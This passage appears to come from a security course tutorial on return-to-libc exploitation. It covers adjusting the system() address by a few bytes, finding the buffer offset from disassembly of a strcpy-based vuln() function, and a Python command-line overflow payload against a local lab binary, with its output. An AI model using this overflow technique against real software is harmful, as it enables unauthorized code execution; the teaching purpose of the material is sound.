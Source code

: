 After subtracting 1 byte, we can see that we get a valid set of instructions,
but due to the non-risc nature of x86 (remember it is a complex instruction
set), the offsets change of the instructions, mangling the call. However, if we
keep stepping backwards, eventually, after 4 bytes, we get a valid instruction
sequence whereby the instructions of system are unchanged. 

So what if we jump to `0xf7e261fc`? This is a `lea` and so it's just
adding/multiplying. In other words, it's a no-op! It has no bearing on the
remainder of the instructions. That means we can just use `0xf7e261fc` as our
address for `system()`.


## Jumping to system

Let's try and use that in our exploit. First, we need to setup the exploit, and
we'll do that in the normal way.

We can find the length of the buffer to the exploit:

``` example
080484d5 <vuln>:
 80484d5:   55                      push   ebp
 80484d6:   89 e5                   mov    ebp,esp
 80484d8:   83 ec 48                sub    esp,0x48
 80484db:   c7 45 f4 00 00 00 00    mov    DWORD PTR [ebp-0xc],0x0
 80484e2:   8b 45 0c                mov    eax,DWORD PTR [ebp+0xc]
 80484e5:   89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 80484e9:   8d 45 d4                lea    eax,[ebp-0x2c] #<------------
 80484ec:   89 04 24                mov    DWORD PTR [esp],eax
 80484ef:   e8 6c fe ff ff          call   8048360 <strcpy@plt>
 80484f4:   eb 20                   jmp    8048516 <vuln+0x41>
 80484f6:   8b 45 f4                mov    eax,DWORD PTR [ebp-0xc]
 80484f9:   8d 50 01                lea    edx,[eax+0x1]
 80484fc:   89 55 f4                mov    DWORD PTR [ebp-0xc],edx
 80484ff:   8d 55 d4                lea    edx,[ebp-0x2c]
 8048502:   89 54 24 08             mov    DWORD PTR [esp+0x8],edx
 8048506:   89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 804850a:   c7 04 24 0e 86 04 08    mov    DWORD PTR [esp],0x804860e
 8048511:   e8 3a fe ff ff          call   8048350 <printf@plt>
 8048516:   8b 45 f4                mov    eax,DWORD PTR [ebp-0xc]
 8048519:   3b 45 08                cmp    eax,DWORD PTR [ebp+0x8]
 804851c:   7c d8                   jl     80484f6 <vuln+0x21>
 804851e:   c9                      leave  
 804851f:   c3                      ret    
```

Then we can setup the overflow:

``` example
user@si485H-base:demo$ ./vulnerable 10 `python -c "import struct; print 'A'*(0x2c+4)+struct.pack('<I',0xf7e261fc)"`
sh: 1: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???: not found
Segmentation fault (core dumped)
```
